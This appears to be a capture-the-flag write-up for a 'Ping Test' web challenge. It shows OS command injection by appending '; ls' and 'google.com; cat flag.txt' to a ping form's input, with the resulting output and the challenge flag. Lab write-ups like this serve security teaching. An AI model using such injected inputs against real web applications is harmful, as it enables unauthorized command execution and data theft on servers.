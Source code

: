 # Ping Test
```
Check out my new web application. 
Give it an IP to test if it responds to ping requests.
```
## Solution

We start by giving it the Host ip: `google.com` and we get
```
Ping Output:
PING google.com (172.217.15.78): 56 data bytes
64 bytes from 172.217.15.78: icmp_seq=0 ttl=47 time=0.841 ms
--- google.com ping statistics ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max/stddev = 0.841/0.841/0.841/0.000 ms
```
We believe that the `ping` reuqeust is actually sent from `Lunix` and the `input form` is actually a command line. 
We test it by adding `; ls`
```
PING google.com (172.217.7.174): 56 data bytes
64 bytes from 172.217.7.174: icmp_seq=0 ttl=47 time=0.598 ms
--- google.com ping statistics ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max/stddev = 0.598/0.598/0.598/0.000 ms
flag.txt
index.php
```
The `;` breaks the command line and goes to the second line therefore we can call `ls` in the same line.
Lets try now `google.com; cat flag.txt`
```
PING google.com (216.58.217.110): 56 data bytes
64 bytes from 216.58.217.110: icmp_seq=0 ttl=47 time=0.857 ms
--- google.com ping statistics ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max/stddev = 0.857/0.857/0.857/0.000 ms
shellter{B3_C4r3ful_W1TH_Us3R5_1NpUT}
```

The flag is `shellter{B3_C4r3ful_W1TH_Us3R5_1NpUT}`
